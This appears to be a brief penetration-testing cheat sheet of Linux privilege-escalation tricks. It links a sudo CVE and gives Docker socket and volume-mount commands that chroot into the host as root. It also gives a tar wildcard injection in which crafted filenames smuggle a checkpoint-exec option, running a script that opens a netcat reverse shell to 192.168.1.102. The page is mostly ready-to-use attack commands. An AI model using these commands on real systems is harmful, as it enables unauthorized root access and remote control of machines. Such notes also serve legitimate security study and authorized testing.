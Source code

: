 # Interesting PrivEsc Findings

## Sudo CVE

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>sudo <a href="https://access.redhat.com/security/cve/cve-2019-14287">CVE-2019-14287</a></p></figcaption></figure>

Read more: [https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/)

## Docker

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```

Docker shell bypass and privesc to root

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

## Tar Wildcard

```bash
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

